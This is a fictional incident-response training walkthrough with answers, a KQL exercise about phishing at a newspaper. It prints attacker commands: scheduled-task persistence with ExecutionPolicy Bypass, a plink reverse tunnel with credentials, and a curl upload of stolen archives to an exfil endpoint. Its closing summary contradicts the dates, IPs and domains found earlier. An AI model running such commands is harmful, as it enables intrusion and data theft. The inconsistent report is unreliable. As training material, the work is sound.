

# A Scandal in Valdoria

# Section 1: KQL 101

## Question 1

**Welcome to Valdoria!**

On the eve of the election, Nene Leaks, the esteemed editor of The Valdorian Times, awoke to a nightmare. The Valdorian Times, the beacon of truth for the city, published a scandalous article accusing Luffy of corruption and misconduct. The article, a vile concoction of lies, was not what she had approved.

The article alleged that Luffy, hailed for his environmental activism and social reforms, was secretly involved in a land deal scandal, exploiting his position to benefit a shadowy network of real estate moguls. Furthermore, it accused Luffy of accepting substantial bribes to push environmentally damaging policies, a stark contradiction to his public persona.

**However**, the article, a vile concoction of lies, was not what had been approved by the newspaper's editor 😵.

The Valdorian Times has hired you as a cyber incident responder to help investigate the incident and get to the bottom of how the falsified article was published.

## Question 2

To start your investigation, you will need access to the company's pool of data!

The Azure Data Explorer (ADX) pane on the right contains our TOP SECRET data. We will use ADX to run queries that will help us answer these questions.

For each query we provide, you can simply copy and paste it into the query pane on the right, and then click `run`. You can use the `control-v` shortcut to paste.


Run a **take** 10 on each of the tables to see what kind of data they contain.

```sql
Employees
| **take** 10
```

Anytime you're stuck while trying to write a query, you can always use **take** 10 to remind yourself what columns and values are in that table!

| AuthenticationEvents |
| --- |
| Email |
| Employees |
| FileCreationEvents |
| InboundNetworkEvents |
| OutboundNetworkEvents |
| PassiveDns (External) |
| ProcessEvents |
| SecurityAlerts |

## Question 3

Now that we have access to the data, we'll need to get a lay of the land. Let's get some more information about the Valdorian Times.

```sql
Employees
| count
```

**How many employees work at the Valdorian Times?**

> `100`
> 

## Question 4

We can use the **where** operator with the Employees table to find a specific employee.

Here is a template you can follow:

```sql
Table
| where <**field**> <**operator**> <**value**>
```

To learn more about how to use **where**, see [the training guide](https://kc7cyber.com/guide/132).

**What is the Editorial Director's name?**

```sql
Employees
| where role == "Editorial Director"
```

> `Nene Leaks`
> 

## Question 5

We can learn more about `Nene Leaks` using information from other tables. Let's take her email address from the Employees table and use it in a query for the Email table.

**How many emails did Nene Leaks receive?**

```sql
Email
| where recipient contains "nene"
| count
```

> `18`
> 

## Question 6

You can use the **distinct** operator to find unique values in a specific column.

```sql
Email
| where sender has "<Domain Name>"
| distinct <field>
| count
```

**How many distinct senders were seen in the email logs from the domain name "weprinturstuff.com"?**

> 100
> 

```sql
Email
| where sender contains "weprinturstuff.com"
| distinct sender
| count
```

## Question 7

**How many distinct websites did “Lois Lane” visit?**

```sql
OutboundNetworkEvents
| **where** src_ip == "Lois Lane IP"
| <**operator**> <field>
| <**operator**>
```

> `62`
> 

```sql
Employees
| where name contains "lois"

OutboundNetworkEvents
| where src_ip == "10.10.0.22"
| distinct url
| count 
```

## Question 8

**How many distinct domains in the PassiveDns records contain the word “hire”?**

```sql
PassiveDns
| where <field> contains <value>
| <operator> <field>
| <operator>
```

*You may notice we're using **contains** instead of **has** here. If you are curious about the differences between these, check out [this post](https://stackoverflow.com/questions/74827840/whas-is-the-difference-between-the-has-and-contains-operators-in-kql).*

> `6`
> 

```sql
PassiveDns
| where domain contains "hire"
| distinct domain
| count
```

## Question 9

**What IPs did the domain “jobhire.org” resolve to (enter any one of them)?**

```sql
PassiveDns
| where domain == "jobhire.org"
| distinct domain
```

> `191.7.248.112`
> 

## Question 10

**How many distinct websites did employees with the first name "Mary" Visit?**

> `58`
> 

```sql
let mary_ips = 
Employees
| where name contains "mary"
| distinct ip_addr;
OutboundNetworkEvents
| where src_ip in (mary_ips)
| distinct url
| count 
```

## Question 11

**How many authentication attempts did we see to the accounts of employees with the first name Mary?**

> `70`
> 

```sql
let marys = Employees 
| where name has "mary"
| distinct name;
AuthenticationEvents
| where username in (marys)
| count
```

## Question 12

Congratulations! 🥳 You've passed KQL 101! Let's dive into the investigation! 🔎

# Section 2: Welcome to Valdoria

## Question 1

**Now we're starting with the investigation!**

As a first step, you reach out to the Editorial Director `Nene Leaks` to ask for more information



**What is the Newspaper Printer's name?**

> `Clark Kent`
> 

## Question 2

Next, you talk with `Clark Kent`. He seems very distressed about the whole situation. 😓 He tells you he simply printed the article that was emailed to him, as he always does.

He tells you he thinks the Editorial Intern was the one who sent him the final draft of the article.

**What is the Editorial Intern's name?**

> `Ronnie McLovin`
> 

```
Employees
| where role == "Editorial Intern"
```

## Question 3

**When was the Editorial Intern hired at The Valdorian Times?**

> `2024-01-02T08:00:00.000Z`
> 

```sql
"hire_date": 2024-01-02T08:00:00.000Z,
"name": Ronnie McLovin,
"user_agent": Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36,
"ip_addr": 10.10.0.19,
"email_addr": ronnie_mclovin@valdoriantimes.news,
"company_domain": valdoriantimes.news,
"username": romclovin,
"role": Editorial Intern,
"hostname": A37A-DESKTOP
```

## Question 4

You contact `Ronnie McLovin` to ask more about the article. At this point, you haven't ruled out the possibility of an [insider threat](https://www.ibm.com/topics/insider-threats) 🕵️, so it's important that you get multiple perspectives of the situation from multiple individuals.

`Ronnie` tells you she was in charge of the OpEd piece about the mayoral candidates, and she was supposed to send the final draft to `Clark Kent` for printing the night before publication. However, she overslept 😴, and never actually sent the article.

You go back to `Clark Kent` with this information, but he is certain that the final draft came in an email from `Ronnie McLovin`. He says he received the email on `January 31, 2024`

> `21`
> 

```sql
Email
| where recipient == "clark_kent@valodoriantimes.news"
| count
```

## Question 5

Review the emails sent to `Clark Kent` for the one sent on **January 31, 2024** containing the final edits for the election OpEd.

**What was the subject line of this email?**

> `URGENT: Final OpEd Draft Edits (Please publish the following article in tomorrow's paper))`
> 

```sql
Email
| where recipient contains "clark_kent"
| project-keep subject, timestamp
```


## Question 6

Who sent this email containing the final edits for the OpEd piece?

**Enter the sender's email address.**

> `ronnie_mclovin@valdoriantimes.news`
> 

```sql
Email
| where subject contains "Edits"
```

## Question 7

**What was the name of the .docx file that was sent in this email?**

> `OpEdFinal_to_print.docx`
> 

```sql
Email
| where link contains ".docx" and sender == "ronnie_mclovin@valdoriantimes.news"
```

```sql
"timestamp": 2024-01-31T11:11:12.000Z,
"sender": ronnie_mclovin@valdoriantimes.news,
"reply_to": ronnie_mclovin@valdoriantimes.news,
"recipient": clark_kent@valdoriantimes.news,
"subject": URGENT: Final OpEd Draft Edits (Please publish the following article in tomorrow's paper)),
"verdict": CLEAN,
"link": https://sharepoint.valdoriantimes.news/files/rmclovin/2024/OpEdFinal_to_print.docx
```

## Question 8

So, it looks like Ronnie did send the email. When you go back and talk to Ronnie, she is adamant that she never sent the draft. She thinks maybe someone else used her account to send it.

She doesn't recall getting any unusual emails or any other weird activity on her computer.

**Do you think this needs further investigation (yes/no)? Choose wisely 😉**

> `yes`
> 

# Section 3: Plenty of Phish

## Question 1

You stop by The Valdorian Times office and meet with some staff. After the meeting, one employee, `Sonia Gose`, comes up to you and says she may have something that can help with your investigation.

**What is Sonia's job role?**

> `Senior Editor`
> 

```sql
Employees
| where name has "Sonia"
```

## Question 2

`Sonia` shows you a suspicious email she received a few weeks ago.


**What email address was used to send this email?**

> `newspaper_jobs@gmail.com`
> 

## Question 3

Let's look for this email in our email logs.

**When was the email sent to Sonia Gose?** Enter the exact timestamp from the logs.

> `2024-01-05T09:42:05.000Z`
> 

```sql
Email
| where sender == "newspaper_jobs@gmail.com"
```


## Question 4

**What URL was included in the email?**

> `https://promotionrecruit.com/published/Valdorian_Times_Editorial_Offer_Letter.docx`
> 

## Question 5

You ask `Sonia` if she clicked on the link but she says she doesn't remember. Let's help her remember. 😐

**What is Sonia Gose's IP address?**

> `10.10.0.3`
> 

```sql
Employees
| where name has "sonia"
```

## Question 6

**If so, enter the timestamp when she clicked the link. If not, type "no".**

> `2024-01-05T10:23:17.000Z`
> 

```sql
OutboundNetworkEvents
| where src_ip == "10.10.0.3" and url contains "recruit"
```

## Question 7

Oh no! It looks like Sonia did click on the link! 😱

**What was the name of the docx file in the link that `Sonia` clicked?**

> `Valdorian_Times_Editorial_Offer_Letter.docx`
> 

```sql
"timestamp": 2024-01-05T10:23:17.000Z,
"method": GET,
"src_ip": 10.10.0.3,
"user_agent": Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.96 Safari/537.36,
"url": https://promotionrecruit.com/published/Valdorian_Times_Editorial_Offer_Letter.docx
```

## Question 8

If she clicked on the link, we should assume that file might have been downloaded. Let's see if we can find the file on her machine.

**What is Sonia Gose's hostname?**

> `UL0M-MACHINE`
> 

```sql
Employees
| where ip_addr == "10.10.0.3"
```

## Question 9

**When did the downloaded docx file first show up on Sonia's machine?**

> `2024-01-05T10:24:04Z`
> 

```sql
FileCreationEvents
| where hostname == "UL0M-MACHINE" and path contains "Downloads"
| project-keep filename, timestamp
```


## Question 10

**What was the full path of the docx file that was downloaded to Sonia's machine?**

> `C:\Users\sogose\Downloads\Valdorian_Times_Editorial_Offer_Letter.docx`
> 

```sql
FileCreationEvents
| where hostname == "UL0M-MACHINE" and path contains "Downloads"
| project-keep timestamp, path
```

## Question 11

A hash is a string that uniquely represents the contents of a file. We can get the hash of a file by running it through a hashing algorithm. Lucky for us, the hashes of all downloaded files are already captured.

**What is the sha256 hash of the file that Sonia downloaded?**

> `60b854332e393a6a2f0015383969c3ac705126a6b7829b762057a3994967a61f`
> 

```sql
FileCreationEvents
| where username == "sogose" and filename == "Valdorian_Times_Editorial_Offer_Letter.docx"
```

## Question 12

After the malicious file was downloaded, it began executing malicious content 🪲

Let's continue to look at Sonia's machine.

**What is the name of the file (.ps1) that was written to disk immediately after the docx was downloaded?**

> `hacktivist_manifesto.ps1`
> 

```sql
FileCreationEvents
| where timestamp >= datetime(2024-01-05T10:24:04.000Z) //timestamp of docx file first show up
| project-keep filename, timestamp
```


## Question 13

**When was this new file created?**

> `2024-01-05T10:24:32.000Z`
> 

## Question 14

The file extension of this new file, ".ps1" is pretty interesting.

**Let's do some research! What type of file is this?**

> `powershell`
> 

## Question 15

You manage to do some forensics and get a copy of the PowerShell script. Here's what it looks like:


**What does the attacker say to "let you know they are here"?**

> `lol ur bout 2 get pwned...`
> 

## Question 16

**According to the PowerShell script, what might be the hacker's favorite color?**

> `green`
> 

## Question 17

**The purpose of the script is to invoke ____ and uncover da truth**

> `plink`
> 

## Question 18

We might be able to find more information about the PowerShell script in **ProcessEvents** data.

Look for process events related to the PowerShell script. Use the name of the .ps1 file (hacktivist_manifesto.ps1) to find related ProcessEvents.

**How many Process Events are there related to this PowerShell script on Sonia's machine?**

```sql
ProcessEvents
| where username == "sogose" and process_commandline contains "ps1"
```


## Question 19

It looks like one of the processes is using schtasks.exe, which creates [scheduled tasks](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks). Scheduled tasks can be used to conduct certain actions at a regular interval.

**What is the full command used to create the scheduled task?**

> `schtasks /create /sc hourly /mo 5 /tn "Hacktivist Manifesto" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\hacktivist_manifesto.ps1"`
> 

<aside>
💡

This creates a scheduled task named "Hacktivist Manifesto" that runs every 5 hours (**`/sc hourly /mo 5`**). 

</aside>

## Question 20

What ExecutionPolicy is set in the command?

> `Bypass`
> 

## Question 21

Check ProcessEvents for evidence of `plink.exe` being executed on `Sonia's` machine.

**What IP address is used when plink is executed?**

> `136.130.190.181`
> 

```sql
ProcessEvents
| where process_commandline contains "plink" and username == "sogose"
```

```sql
plink.exe -R 3389:localhost:3389 -ssh -l $had0w -pw thruthW!llS3tUfree 136.130.190.181
```

## Question 22

That's not good. 🫢 It looks like an attacker has established a connection to Sonia's computer from an external IP address.

**What username did the attacker use when connecting via plink?**

> `$had0w`
> 

## Question 23

**What password did the attacker use when connecting via plink?**

> `thruthW!llS3tUfree`
> 

## Question 24

Attackers use plink to establish a tunnel to a compromised machine. Now that the attackers have established a tunnel to Sonia's machine, they can manually run commands to do specific things on the device. This is called hands-on-keyboard activity.


Let's look closer at this machine to find commands that the attackers may have run after establishing the tunnel.

**What six-letter command did the attackers run to figure out which user they are logged on as on the computer?**

> `whoami`
> 

```sql
ProcessEvents
| where username == "sogose" and timestamp > datetime(2024-01-06T02:39:35.000Z)
| project-keep process_commandline
```


## Question 25

Nice! `whoami` is a called a discovery command. Attackers use commands like these to learn more about the computers they compromise.

**How many discovery commands did the attackers run on this machine?**

> `5`
> 


## Question 26

We've hit a dead end! You triaged the rest of the logs for this machine and it looks like nothing else malicious happened here.

Maybe the attackers weren't interested in Sonia…

**Do you think we can safely stop our investigation here? (yes/no)**

> `no`
> 

# Section 4: A scandal

## Question 1

We can apply what we've learned by investigating the activity affecting `Sonia` to find other victims of this incident.

I hope you took good notes. Another suspicious email address `valdorias_best_recruiter@gmail.com` was seen sending emails to intern Ronnie and a few others.

**How many total emails were sent by this email sender to users at The Valdorian Times?**

> `18`
> 

```sql
Email
| where sender == "valdorias_best_recruiter@gmail.com"
| count 
```

## Question 2

Uh oh… it looks like that email address was used to target Ronnie!

**When did `valdorias_best_recruiter@gmail.com` send an email to Ronnie McLovin?***

> `2024-01-10T08:48:16.000Z`
> 

```sql
Email
| where sender == "valdorias_best_recruiter@gmail.com" and recipient contains "ronnie"
```

```sql
"timestamp": 2024-01-10T08:48:16.000Z,
"sender": valdorias_best_recruiter@gmail.com,
"reply_to": valdorias_best_recruiter@gmail.com,
"recipient": ronnie_mclovin@valdoriantimes.news,
"subject": [EXTERNAL] Breaking News: We're Hiring! Apply Now for Reporter Roles,
"verdict": CLEAN,
"link": https://promotionrecruit.org/share/Editorial_J0b_Openings_2024.docx
```

## Question 3

**What domain was in the link from that email?**

> `promotionrecruit.org`
> 

## Question 4

**What was the subject of that email?**

> `[EXTERNAL] Breaking News: We're Hiring! Apply Now for Reporter Roles`
> 

## Question 5

Just as we did with `Sonia` before, now we need to see if `Ronnie` clicked the link.

**When did Ronnie click on the link in the email from `valdorias_best_recruiter@gmail.com` ?**

> `2024-01-10T08:55:07Z`
> 

```sql
let ips = Employees
| where name contains "ronnie"
| distinct ip_addr;
OutboundNetworkEvents
| where src_ip in (ips) and  url contains "promotionrecruit.org"
```

## Question 6

**What was the name of the .docx file that was downloaded to Ronnie's machine?**

> `Editorial_J0b_Openings_2024.docx`
> 

```sql
FileCreationEvents
| where hostname == "A37A-DESKTOP" and timestamp >= datetime(2024-01-10T08:55:07Z)
| project-keep hostname, filename, path
```


## Question 7

**When was this docx file downloaded?**

> `2024-01-10T08:55:17Z`
> 

## Question 8

**When was the .ps1 file dropped to Ronnie's machine?**

> `2024-01-10T08:55:51Z`
> 

## Question 9

**What IP address was used with plink on Ronnie's machine?**

> `168.57.191.100`
> 

<aside>
💡

plink.exe -R 3389:localhost:3389 -ssh -l $had0w -pw thruthW!llS3tUfree 168.57.191.100

</aside>

## Question 10

**What username was used with plink on Ronnie's machine?**

> `$had0w`
> 

## Question 11

**What password was used with plink on Ronnie's machine?**

> `thruthW!llS3tUfree`
> 

## Question 12

**How many discovery commands were run on Ronnie's machine?**

> `5`
> 

```sql
ProcessEvents
| where hostname == "A37A-DESKTOP" and parent_process_name == "cmd.exe"
| project-keep process_commandline,timestamp
```


## Question 13

Your investigative buddy, who was also looking at Ronnie's machine, saw a weird file `fakestory.docx` being downloaded from a suspicious domain.

Let's see if we can find evidence of this download in OutboundNetworkEvents.

**What is Ronnie's IP address?**

> `10.10.0.19`
> 

```sql
Employees
| where name contains "ronnie"
```

## Question 14

**What is the full URL fakestory.docx was downloaded from?**

> `https://hire-recruit.org/files/fakescandal/2024/fakestory.docx`
> 

```sql

OutboundNetworkEvents
| where src_ip == "10.10.0.19" and url endswith "fakestory.docx"
```

## Question 15

It does look like someone downloaded fakestory.docx to Ronnie's machine. Let's see if we can find that file on disk.

**What is Ronnie's hostname?**

> `A37A-DESKTOP`
> 

```sql
Employees
| where name contains "ronnie"
```

## Question 16

**What is the sha256 hash of fakestory.docx on Ronnie's machine?**

> `5f8a7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f`
> 

```sql
FileCreationEvents
| where filename == "fakestory.docx"
```

## Question 17

**When was fakestory.docx created on Ronnie's machine?**

> `2024-01-31T09:47:51Z`
> 

## Question 18

Ronnie doesn't recall ever seeing that file or visiting that domain. It seems that this file download is evidence of hands-on-keyboard activity from the attackers.

Let's see what the attackers did after they downloaded fakestory.docx by looking at ProcessEvents for Ronnie's machine.

After downloading fakestory.docx, the attackers ran a command to rename and move the file to a different location.

**What is the new path for the document?**

> `C:\Users\romclovin\Documents\OpEdFinal_to_print.docx`
> 

```sql
ProcessEvents
| where hostname == "A37A-DESKTOP" and parent_process_name == "cmd.exe" and timestamp > datetime(2024-01-31T09:47:51Z)
```


## Question 19

**When was this command executed to rename and move the file?**

> `1/31/2024, 10:26:20 AM`
> 

## Question 20

OpEdFinal… that seems familiar.

Wait a minute, that's the same file name you saw when you looked in the email logs to find Ronnie sending the draft to Clark Kent. Is it possible that the attacker used Ronnie's email to send this file to Clark?

**When was `OpEdFinal_to_print.docx` emailed from Ronnie's account to Clark Kent?**

> `1/31/2024, 11:11:12 AM`
> 

```sql
Email
| where link contains ".docx" and sender == "ronnie_mclovin@valdoriantimes.news"
```

## Question 21

**How many minutes elapsed between when the file was moved/renamed on Ronnie machine and when the email was sent to Clark Kent?**

> `44`
> 

<aside>
💡

From 10:26:20 AM to 11:11:12 AM is:

- Minutes: 11:11 - 10:26 = 45 minutes
- Seconds: 12 - 20 = -8 seconds (so subtract 1 minute and add 60 seconds)

So total duration = 44 minutes and 52 seconds.

Hence, the difference is **44 minutes and 52 seconds**.

</aside>

## Question 22

**What was the subject line of this email?**

> `URGENT: Final OpEd Draft Edits (Please publish the following article in tomorrow's paper))`
> 

## Question 23

Wow! So it looks like the attackers downloaded the fake story, renamed it `OpEdFinal_to_print.docx`, and then sent the file to `Clark Kent` using Ronnie's email!

**Do you think this is the *only* thing the attackers did on Ronnie's machine? (yes/no)**

> `no`
> 

## Question 24

In the middle of your investigation, `Ronnie` finds you and shows you an alert she received from her dark web monitoring service.


**What is the domain mentioned in this alert?**

> `hirerecruit.com`
> 

## Question 25

Oh no! It looks like someone may have stolen Ronnie's memes from her machine! Let's see if we can find evidence of the attackers stealing any data.

We can **timebound** our analysis to find other actions that ocurred around the same time by using this query:

```sql
ProcessEvents
| where timestamp between (datetime(2024-01-21 07:00:00) .. datetime(2024-01-21 12:00:00))
| where hostname == "A37A-DESKTOP" //Ronnie's hostname
| order by timestamp asc
```

> `2`
> 

## Question 26

Right after renaming `fakestory.docx` to `OpEdFinal_to_print.docx`, the attackers ran commands to steal (exfiltrate) data from Ronnie's machine.

One command the attackers ran leveraged 7zip to compress all of Ronnie's dank memes into a .7z file.


**What is the name of the .7z file that contains the stolen memes?**

> `dankmemes.7z`
> 

```sql
ProcessEvents
| where hostname == "A37A-DESKTOP" and parent_process_name == "cmd.exe" and timestamp >=
 datetime(1/31/2024, 10:26:20 AM)
```


## Question 27

**What is the name of the .7z file that contains files stolen from Ronnie's Documents folder?**

> `MyStolenDataFromDocuments.7z`
> 


## Question 28

**What is the name of the .7z file that contains files stolen from Ronnie's Desktop folder?**

> `MyStolenDataFromDesktop.7z`
> 


## Question 29

**What is the password the attackers used to encrypt all of the .7z files?**

> `thruthW!llS3tUfree`
> 


## Question 30

After compressing all the stolen data into .7z files, the attackers *exfiltrated* the data by uploading it to a custom portal on their website.

**What is the full command the attackers ran to do this?**

> `curl -F "file=@C:\Users\romclovin\Documents\*.7z" https://hirejob.com/exfil_processor/upload.php`
> 


## Question 31

**What domain was the stolen data uploaded to?**

> `hirejob.com`
> 

## Question 32

Query ProcessEvents for all devices at Valdorian Times.

**Was data stolen from any other devices and uploaded to hirejob.com? (yes/no)**

> `no`
> 

```sql
ProcessEvents
| where process_commandline contains "curl"
```

## 

# Summary

The Valdoria Times
Post-Incident Report

On January 22, 2024, The Valdorian Times published an unapproved article that
made defamatory statements about a candidate in the Valdoria mayoral race.
While the newspaper was planning to publish an OpEd on both candidates the
morning of the election, the article that was published did not match the article
that had been approved by the editor for publication.

The Newspaper Printer for The Valdorian Times, Clark Kent, reported that he
printed the article that he received via email on the evening of January 21, 2024.
This email was sent from ronnie_mclovin@valdoriantimes.news with the
subject line URGENT: Final OpEd Draft Edits (Please publish the following
article in tomorrow's paper)). The email contained a link to the draft of the
article, titled OpEdFinal_to_print.docx. While Ronnie McLovin was responsible
for making final edits to the article, she fell asleep early on January 21, 2024 and
failed to send the final draft of the approved article. As a result, The Valdorian
Times staff believed the fraudulent article was sent to the printer by an
unauthorized entity.

Sonia Gose, a Valdorian Times IT Specialist reported that, on January 10,
2024, he received a suspicious email from [newspaper_jobs@gmail.com](mailto:newspaper_jobs@gmail.com). The
user clicked a link from this phishing email, which directed the user to
[hire-recruit.com](http://hire-recruit.com/). This resulted in the download of a malicious file
Valdorian_Times_Editorial_Offer_Letter.docx. On 2024-01-10, this document
file was opened, after which it dropped a malicious PowerShell script,
hacktivist_manifesto.ps1, This script then created a scheduled task,
downloaded plink, and initiated a connection to attacker-controlled IP
205.129.146.36.

Following this, the attacker used the established plink tunnel to run system
discovery commands on the compromised system. No further
post-compromise activity was detected on this system.

In total, [newspaper_jobs@gmail.com](mailto:newspaper_jobs@gmail.com) was used to target 6 users at The
Valdorian Times. Ronnie McLovin, The Valdorian Times’ Editorial Intern, was
also targeted in this phishing campaign on 2024-01-10. The phishing email
sent to Ronnie McLovin contained a link to [hire-recruit.com](http://hire-recruit.com/), which directed the
user to download a malicious document
Valdorian_Times_Editorial_Offer_Letter.docx. In similar fashion to the activity
observed on Sonia Gose’s machine, the document file dropped
hacktivist_manifesto.ps1, which led to deployment of plink on the
compromised device. This gave the attackers hands-on-keyboard access to
Ronnie McLovin’s device.

After gaining hands-on-keyboard access to Ronnie’s device, the attackers
downloaded fakestory.docx from [hire-recruit.com](http://hire-recruit.com/). The attackers then renamed
this file to OpEdFinal_to_print.docx. Less than 1 hour after the file was
downloaded and renamed, it was emailed to Clark Kent with the subject line
URGENT: Final OpEd Draft Edits (Please publish the following article in
tomorrow's paper)). This file contained the falsified story that was ultimately
printed defaming the mayoral candidate.

Shortly after sending the falsified story, the attackers also exfiltrated data from
Ronnie McLovin’s machine, including documents, desktop contents, and dank
memes. These files were compressed in a 7zip archive and then uploaded to a
custom portal at [hirerecruit.com](http://hirerecruit.com/).